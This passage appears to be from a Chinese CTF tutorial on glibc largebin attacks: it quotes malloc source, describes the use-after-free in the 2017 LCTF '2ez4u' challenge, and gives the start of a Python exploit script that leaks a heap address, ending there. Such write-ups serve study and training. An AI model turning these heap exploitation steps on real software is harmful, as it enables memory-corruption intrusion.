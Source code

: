 ```c
                  if (av != &main_arena)
                    victim->size |= NON_MAIN_ARENA;
                }
              /* Split */
              else
                {
                  remainder = chunk_at_offset (victim, nb);
                  /* We cannot assume the unsorted list is empty and therefore
                     have to perform a complete insert here.  */
                  bck = unsorted_chunks (av);
                  fwd = bck->fd;
      if (__glibc_unlikely (fwd->bk != bck))
                    {
                      errstr = "malloc(): corrupted unsorted chunks";
                      goto errout;
                    }
                  remainder->bk = bck;
                  remainder->fd = fwd;
                  bck->fd = remainder;
                  fwd->bk = remainder;
                  if (!in_smallbin_range (remainder_size))
                    {
                      remainder->fd_nextsize = NULL;
                      remainder->bk_nextsize = NULL;
                    }
                  set_head (victim, nb | PREV_INUSE |
                            (av != &main_arena ? NON_MAIN_ARENA : 0));
                  set_head (remainder, remainder_size | PREV_INUSE);
                  set_foot (remainder, remainder_size);
                }
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
        }
```

实例-2017lctf-2ez4u
-----------------

我们主要是了解largebin attack的利用，题目的逆向部分我们简单描述一下：程序保护全开，经典的菜单题目，增查删改一应俱全，free函数里面存在uaf漏洞，在free堆块之后没有将堆块指针清零。

### leak\_heap\_addr

通过释放两个largebin大小的堆块，使他们构成一条largebin的链子，这样的话chunk中的fd\_nextsize与bk\_nextsize会被赋值，再利用UAF打印即可得到堆块地址。

```python
add(0x60,  '0'*0x60 ) # 0
add(0x60,  '1'*0x60 ) # 1
add(0x60,  '2'*0x60 ) # 2
add(0x60,  '3'*0x60 ) # 3
add(0x60,  '4'*0x60 ) # 4
add(0x60,  '5'*0x60 ) # 5
add(0x60,  '6'*0x60 ) # 6
add(0x3f0, '7'*0x3f0) # 7
add(0x30,  '8'*0x30 ) # 8
add(0x3e0, '9'*0x3d0) # 9 
add(0x30,  'a'*0x30 ) # a
add(0x3f0, 'b'*0x3e0) # b 
add(0x30,  'c'*0x30 ) # c
dele(0x9)  ##释放第一个大块
dele(0xb)  ##释放第二个大块
```